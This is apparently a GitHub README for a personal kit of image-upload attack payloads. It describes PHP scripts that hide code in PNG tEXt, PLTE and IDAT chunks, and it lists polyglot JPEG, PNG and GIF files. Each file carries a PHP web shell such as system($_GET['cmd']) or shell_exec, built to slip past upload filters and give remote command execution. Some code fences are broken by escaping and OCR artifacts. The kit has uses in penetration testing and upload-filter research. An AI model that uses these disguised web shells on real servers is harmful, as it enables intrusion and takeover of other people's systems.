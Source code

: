 # Image Upload Payloads and Scripts

This directory contains my payloads and scripts related to image upload vulnerabilities.

## Scripts

- **generate_tEXtPNG.php**  
  Takes 3 parameters: a PNG image, a PHP payload, and an output name.  
  Creates a new PHP file with a valid PNG structure that embeds the payload inside a custom `tEXt` chunk called `"synackt"`.

- **generatePLTE.php**  
  Takes 2 parameters: a PHP payload and an output name.  
  Creates a new PHP file with a valid PNG structure that hides the payload inside its palette (`PLTE`) instructions.

- **generateIDAT.php**  
  Very specific script.  
  Produces a `110x110` PNG image that, once resized to `55x55`, contains the exact PHP payload:  
  ```php
  <?=$_GET[0]($_POST[1]);?>

## Payloads

- **magicAd1Pixel.jpg**  
  A one-pixel JPEG image. With payload.  
  It contains the following PHP payload inside:
  
  ```php
  <?php echo system($_GET['cmd']); ?>

- **magicOnly.jpg**
  A minimal, magic-byte only JPEG image. With payload.
  It contains the following PHP payload inside:
  
  \`\`\`php
  <?php echo system($\_GET\['cmd']); ?>
  
- **PLTE1.png**
  A simple PNG image  with the payload in its PLTE section
  Generated by the PLTE script above.
  The image has an IHDR, PLTE, IDAT, and an IEND
  It contains the following PHP payload inside:
  
  \`\`\`php
  <?php echo shell_exec($\_GET\['cmd']); ?>


- **commentAnd1Pixel.png**
  A one-pixel PNG image with the payload in its comment section
  Comment was added using exiftool
  The image has an IHDR, tEXtComment, IDAT, and an IEND
  It contains the following PHP payload inside:
  
  \`\`\`php
  <?php echo system($_GET['cmd']); ?>  
  
  
  
- **realAndEnd.gif**
  A simple real GIF with the payload appended to its end
  - This wasn't tested and may not work due to unpredictable data before actual php code
  It contains the following PHP payload inside:
  
  \`\`\`php
  <?php echo system($_GET['cmd']); ?> 
  
  
  - **minimal89.gif**
  A GIF consisting of only the GIF89a + payload
  It contains the following PHP payload inside:
  
  \`\`\`php
  <?php echo system($_GET['cmd']); ?> 
  